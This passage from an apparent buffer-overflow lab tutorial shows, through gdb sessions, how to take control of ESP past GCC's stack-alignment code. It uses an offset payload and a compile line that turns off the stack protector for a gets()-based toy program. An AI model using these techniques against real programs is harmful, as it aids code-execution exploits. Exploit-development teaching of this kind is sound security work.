 With all other factors aside, a really simple compensating technique is just to add 4 to the value of whatever payload you intend to send, for the "last" (Little Endian) byte. So, if we wanted to overflow ESP wih *AAAA*, we could send:

```
BBBBEAAA
```

The first four bytes are just padding. The next four bytes will overflow and resolve to *AAAA*. Since *E = 0x45*, this will become to *0x41 = A* after the final LEA instruction in *main*.

Check it in the debugger:

```
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x565561c5 <+56>:	lea    esp,[ecx-0x4]
   0x565561c8 <+59>:	ret
End of assembler dump.
(gdb) r
...
BBBBEAAA
Program received signal SIGSEGV, Segmentation fault.
0x565561c8 in main ()
(gdb) i r esp
esp            0x41414141          0x41414141
```

Since *ESP = 0x41414141*, the intended payload is the overflow value.

Although this is a trivial payload, the approach may be useful if you need to send, for example, shellcode or a target address. This approach is probably best for cases where you need to target a prebuilt binary and can observe these additional instructions. In other cases, you can also use GCC flags to fine-tune the stack alignment.

# Workaround 2: GCC flags

If you're trying to follow an existing walkthrough that does not have these stack-aligning features enabled, and you just want to follow the walkthrough verbatim, you can also disable the features with `-mpreferred-stack-boundary=2`, like:

```
gcc bof.c -o bof.out -m32 -march=i386 -fno-stack-protector -mpreferred-stack-boundary=2
```

The resultant disassembly should no longer have the LEA instructions:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000118d <+0>:	push   ebp
   0x0000118e <+1>:	mov    ebp,esp
   0x00001190 <+3>:	push   ebx
   0x00001191 <+4>:	sub    esp,0x4
   0x00001194 <+7>:	call   0x11b6 <__x86.get_pc_thunk.ax>
   0x00001199 <+12>:	add    eax,0x2e5b
   0x0000119e <+17>:	lea    edx,[ebp-0x8]
   0x000011a1 <+20>:	push   edx
   0x000011a2 <+21>:	mov    ebx,eax
   0x000011a4 <+23>:	call   0x1040 <gets@plt>
   0x000011a9 <+28>:	add    esp,0x4
   0x000011ac <+31>:	mov    eax,0x0
   0x000011b1 <+36>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x000011b4 <+39>:	leave
   0x000011b5 <+40>:	ret
```
